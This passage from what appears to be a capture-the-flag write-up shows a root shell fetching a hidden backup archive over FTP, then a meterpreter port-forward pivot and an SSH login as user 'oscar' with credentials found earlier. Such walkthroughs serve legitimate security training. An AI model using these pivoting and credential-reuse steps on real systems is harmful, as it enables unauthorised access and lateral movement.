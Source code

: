 local: file.txt remote: file.txt  
200 PORT command successful. Consider using PASV.  
150 Opening BINARY mode data connection for file.txt (15 bytes).  
226 Transfer complete.  
15 bytes received in 0.00 secs (92.1285 kB/s)  
ftp&gt; get .backup.zip  
get .backup.zip  
local: .backup.zip remote: .backup.zip  
200 PORT command successful. Consider using PASV.  
150 Opening BINARY mode data connection for .backup.zip (224 bytes).  
226 Transfer complete.  
224 bytes received in 0.00 secs (268.7346 kB/s)  
ftp&gt; exit  
exit  
221 Goodbye.  
root@WebServer:/root# ls  
ls  
2_flag.txt  file.txt  typescript  
root@WebServer:/root# ls -al  
ls -al  
total 60  
drwx------ 1 root root  4096 Sep 26 23:01 .  
drwxr-xr-x 1 root root  4096 Aug 25 16:08 ..  
-rw-r--r-- 1 root root   224 Sep 26 23:01 .backup.zip  
-rw------- 1 root root     0 Sep 26 22:02 .bash_history  
-rw-r--r-- 1 root root  3106 Dec  5  2019 .bashrc  
-rw-r--r-- 1 root root   161 Dec  5  2019 .profile  
-rw-r--r-- 1 root root     0 Aug 26 14:20 .selected_editor  
-rwxr-xr-x 1 root root   215 Aug 27 14:43 .services  
drwx------ 2 root root  4096 Aug 27 09:59 .ssh  
-rw------- 1 root root 10606 Aug 27 15:05 .viminfo  
-rw-r--r-- 1 root root   467 Aug 26 14:03 2_flag.txt  
-rw-r--r-- 1 root root    15 Sep 26 23:00 file.txt  
-rw-r--r-- 1 root root 10157 Sep 26 13:58 typescript  
root@WebServer:/root# cat file.txt`

We retrieve 2 files, file.txt and .backup.zip. file.txt is a dead end so we look into backup.txt.

I transferred the backup.zip file to oscar’s directory and used chown to give him permissions to access the file. Then pivoted the traffic on port 22 to our localhost so we can access the ssh server as oscar using his credentials(that we found earlier).
`meterpreter &gt; portfwd add -l 2022 -p 22 -r 172.17.0.4``ssh oscar@localhost -p 2022``oscar@WebServer:~$ ls -al  
total 40  
drwx------ 4 oscar oscar 4096 Sep 26 23:05 .  
drwxr-xr-x 1 root  root  4096 Aug 26 13:38 ..  
-rw------- 1 oscar oscar    0 Sep 26 22:02 .bash_history  
-rw-r--r-- 1 oscar oscar  220 Aug 25 16:11 .bash_logout  
-rw-r--r-- 1 oscar oscar 3771 Aug 25 16:11 .bashrc  
drwx------ 2 oscar oscar 4096 Aug 25 20:09 .cache  
-rw-r--r-- 1 oscar oscar  807 Aug 25 16:11 .profile  
-rw------- 1 oscar oscar 2183 Aug 26 14:25 .viminfo  
-rw-r--r-- 1 oscar oscar  224 Sep 26 23:01 backup.zip  
-r-------- 1 oscar oscar   37 Aug 26 14:25 my_password  
drwx------ 2 oscar oscar 4096 Sep 26 22:57 scripts  
oscar@WebServer:~$`
